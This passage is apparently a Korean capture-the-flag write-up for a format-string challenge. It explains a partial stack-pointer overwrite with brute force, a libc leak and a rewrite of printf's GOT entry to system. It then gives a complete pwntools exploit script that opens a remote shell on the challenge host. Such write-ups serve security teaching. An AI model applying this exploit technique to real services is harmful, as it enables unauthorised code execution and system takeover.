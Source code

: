 ```
0x7fffffffc810: 0x00007fffffffc8b0      0x00007ffff7dfac88
```

`$rsp + 0x10`에 스택 관련 주소가 있다. 여길 1바이트 덮어서 v5를 가르키게 하면 v5를 변조할 수 있다. 1바이트를 `\x3e`로 덮었을 때 가능한 경우가 있음을 확인했다. 스택에는 ASLR이 걸려있어서 항상 base 주소가 달라지기 때문에 1/16 브루트포싱이 필요하다.  
그리고 문제에서 도커파일을 주지 않았다. 스택에 있는 값은 구축된 환경에 따라 다를 수 있기 때문에 로컬에서 분석할 때 스택에 값이 있다고 리모트 환경에 반드시 있지 않아 꽤나 도박성 익스이다. 하지만 운이 좋게 그대로 스택 관련된 값이 있었다.  
이렇게 v5를 변조해 `FSB`를 무한히 실행할 수 있다. 그 후 %p를 통해 libc\_base를 구하고, printf의 got을 system 주소로 바꾸고 /bin/sh를 입력하면 쉘을 딸 수 있다.

## dec.py

```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'
context.bits = 64

HOST = "227823158c9de5e8d4b2cffaf1bc60fc.chal.ctf.ae"
l = ELF('./libc.so.6')

while True:
    #p = process('./yet_another_fsb')
    p = remote(HOST, 443, ssl=True, sni=HOST)
    e = ELF('./yet_another_fsb')

    payload = b'%c%8$hhn'.ljust(0x10, b'\x00') + b'\x3e'
    p.send(payload)
    msg = p.recvn(1)
    if msg == b'0': 
        break
    p.close()

#gdb.attach(p,'b *{}'.format(0x00000000004011ef))
payload = b'%3$p\n\x00'

p.send(payload)
l.address = int(p.recvline()[:-1], 16) - (0x7ff5229fd981 - 0x7ff5228f5000)
print(hex(l.address))

payload = fmtstr_payload(6, {e.got['printf']: l.sym['system']})
p.send(payload)
p.send(b'/bin/sh\x00')
p.interactive()
```

---

# Recover Your Vision
